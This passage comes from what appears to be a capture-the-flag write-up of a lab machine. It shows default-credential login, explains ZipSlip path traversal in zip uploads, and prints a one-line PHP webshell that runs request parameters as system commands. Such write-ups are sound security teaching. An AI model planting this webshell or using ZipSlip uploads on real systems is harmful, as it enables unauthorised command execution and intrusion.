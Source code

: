 I find three valid logins, but unfortunately, it is just is a troll:

![1558210387826](https://0xdfimages.gitlab.io/img/1558210387826.png)

### Website - TCP 8080

Visiting prompts for auth:

![1558187824401](https://0xdfimages.gitlab.io/img/1558187824401.png)

I was about to fire up `hydra` again, but I guessed “admin” / “admin” and it lets me in, presenting another page about image uploads:

![1558210471996](https://0xdfimages.gitlab.io/img/1558210471996.png)

This must be the “fake art site” mentioned in `secret.php`.

At the very top, there’s a upload image panel. Additionally, if I click the blue arrows on the right and left, there are two other panels:

![1558210540314](https://0xdfimages.gitlab.io/img/1558210540314.png)

![1558210553204](https://0xdfimages.gitlab.io/img/1558210553204.png)

With a little testing, I’ll see that I’m only allowed to upload jpegs on the original form, and zips on the third one. There may be some extension bypasses, but I won’t need them.

## Shell as www-data on Aogiri

### ZipSlip Background

When I googled “malicious zip file upload”, the first link was [this article from naked security](https://nakedsecurity.sophos.com/2018/06/06/the-zip-slip-vulnerability-what-you-need-to-know/). Research from summer 2018 revealed that a lot of zip programs weren’t doing path traversal checks on zip files when they unzipped them. For any user interface that takes untrusted zip files, that could be a big issue, as it would allow arbitrary write anywhere the web process can write.

This happens because zip files store files with relative paths, relative to the directory they are unzipped into. The vulnerability is that I can put a file into my zip with path `../../../../../../../../../../etc/passwd`, and it will unzip and try to overwrite the `/etc/passwd` file on the host (though usually will fail assuming www-data can’t write to `/etc/passwd`). But there is a lot of damage that can be done, often writing a webshell.

### WebShell

I’ve already seen the site is running php. I’ll grab my trusty simple php webshell, and copy it to the `/var/www/html` directory on my kali host.

```

root@kali# cp /opt/shells/php/cmd.php /var/www/html/
root@kali# cat /var/www/html/cmd.php 
<?php system($_REQUEST['cmd']); ?>

```
